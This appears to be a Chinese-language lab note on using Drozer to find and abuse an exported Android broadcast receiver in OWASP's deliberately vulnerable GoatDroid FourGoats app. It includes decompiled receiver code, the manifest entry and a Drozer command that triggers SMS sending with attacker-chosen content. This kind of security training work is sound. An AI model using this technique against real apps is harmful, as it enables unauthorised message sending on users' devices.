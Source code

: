```yaml
---
title: Test Sieve - broadcast receivers exported
tags: [Android, Drozer]

category: "Tools > Others > Android Related > Drozer > Test Sieve"
---
```


# Test Sieve - broadcast receivers exported
這個就不是用Sieve做示範，因為這個App沒有match的receiver
```bash
dz> run app.broadcast.info -a com.mwr.example.sieve
Attempting to run shell module
Package: com.mwr.example.sieve
  No matching receivers.
```
所以我就用之前安裝的goatdroid做示範
1. 檢查broadcast receiver
    ```bash
    dz> run app.broadcast.info -a org.owasp.goatdroid.fourgoats
    Attempting to run shell module
    Package: org.owasp.goatdroid.fourgoats
      org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver
        Permission: null
    ```
2. 確認後就逆向看一下
    在`org.owasp.goatdroid.fourgoats.broadcastreceivers`中有SendSMSNowReceiver這個class，內容如下:
    ```java
    public class SendSMSNowReceiver extends BroadcastReceiver {
        Context context;

        @Override // android.content.BroadcastReceiver
        public void onReceive(Context arg0, Intent arg1) {
            this.context = arg0;
            SmsManager sms = SmsManager.getDefault();
            Bundle bundle = arg1.getExtras();
            sms.sendTextMessage(bundle.getString("phoneNumber"), null, bundle.getString("message"), null, null);
            Utils.makeToast(this.context, Constants.TEXT_MESSAGE_SENT, 1);
        }
    }
    ```
3. Send Something
    此時我們就可以用drozer發出一個intent，但是在發出之前要看一下AndroidManifest.xml中對於receiver的描述如下，如果想知道這個intent-filter代表的事情可以參考[^chatgpt-intent-filter]，簡單來說就是所有app都可以發出broadcast，那什麼樣的intent會被goatdroid所接收呢?就是帶有`org.owasp.goatdroid.fourgoats.SOCIAL_SMS`這個action才會被接收，並且觸發onReceive這個function
    ```xml
    <manifest versionCode="1" versionName="1.0" package="org.owasp.goatdroid.fourgoats">
      ...
      <application theme="@2131361870" label="@2131296266" icon="@2130837632" debuggable="true">
        ...
        <receiver label="Send SMS" name=".broadcastreceivers.SendSMSNowReceiver">
          <intent-filter>
            <action name="org.owasp.goatdroid.fourgoats.SOCIAL_SMS"></action>
          </intent-filter>
        </receiver>
      </application>
      ...
    </manifest>
    ```
    ```bash!
    dz> run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --component org.owasp.goatdroid.fourgoats.broadcastreceivers SendSMSNowReceiver --extra string phoneNumber 123456789 --extra string message "Hello mate!"
    ```
    因為fourgoat這個App需要一個server，但是原作把server的link下架了，所以我也不知道實際送出這個broadcast會有什麼效果，但就是先紀錄起來，之後有機會可以用